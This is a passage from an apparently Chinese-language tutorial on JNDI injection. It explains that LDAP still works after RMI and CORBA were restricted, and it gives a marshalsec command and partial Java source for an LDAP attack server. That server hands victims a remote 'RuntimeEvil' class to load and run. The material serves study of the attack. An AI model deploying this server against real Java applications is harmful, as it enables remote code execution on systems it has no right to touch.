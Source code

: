 ![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20240925180637512.png)不过只加了RMI和CORBA的，LDAP依旧能打，详情自己去LDAPctx文件跟

如果你要用ldap服务打，相应的就要改RMIServer为LDAPServer：

直接抄一个，因为LDAP服务不是java特有的，其他语言也在用的一个轻型目录访问协议（Lightweight Directory Access Protocol），图方便可以用marshalsec起

```java
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer http://127.0.0.1:8888/#RuntimeEvil 1099
```

也可以用java起，代码比较麻烦

依赖：

```xml
<dependency>
    <groupId>com.unboundid</groupId>
    <artifactId>unboundid-ldapsdk</artifactId>
    <version>3.1.1</version>
</dependency>
```

```java
import java.net.InetAddress;
import java.net.MalformedURLException;
import java.net.URL;
import javax.net.ServerSocketFactory;
import javax.net.SocketFactory;
import javax.net.ssl.SSLSocketFactory;
import com.unboundid.ldap.listener.InMemoryDirectoryServer;
import com.unboundid.ldap.listener.InMemoryDirectoryServerConfig;
import com.unboundid.ldap.listener.InMemoryListenerConfig;
import com.unboundid.ldap.listener.interceptor.InMemoryInterceptedSearchResult;
import com.unboundid.ldap.listener.interceptor.InMemoryOperationInterceptor;
import com.unboundid.ldap.sdk.Entry;
import com.unboundid.ldap.sdk.LDAPException;
import com.unboundid.ldap.sdk.LDAPResult;
import com.unboundid.ldap.sdk.ResultCode;

public class LdapAtkServer {

    private static final String LDAP_BASE = "dc=t4rrega,dc=domain";

    public static void main ( String[] tmp_args ) {
        String[] args=new String[]{"http://127.0.0.1:8888/#RuntimeEvil"};
        int port = 1099;

        try {
            InMemoryDirectoryServerConfig config = new InMemoryDirectoryServerConfig(LDAP_BASE);
            config.setListenerConfigs(new InMemoryListenerConfig(
                    "listen", //$NON-NLS-1$
                    InetAddress.getByName("0.0.0.0"), //$NON-NLS-1$
                    port,
                    ServerSocketFactory.getDefault(),
                    SocketFactory.getDefault(),
                    (SSLSocketFactory) SSLSocketFactory.getDefault()));

            config.addInMemoryOperationInterceptor(new OperationInterceptor(new URL(args[ 0 ])));
            InMemoryDirectoryServer ds = new InMemoryDirectoryServer(config);
            System.out.println("Listening on 0.0.0.0:" + port); //$NON-NLS-1$
            ds.startListening();

        }
        catch ( Exception e ) {
            e.printStackTrace();
        }
```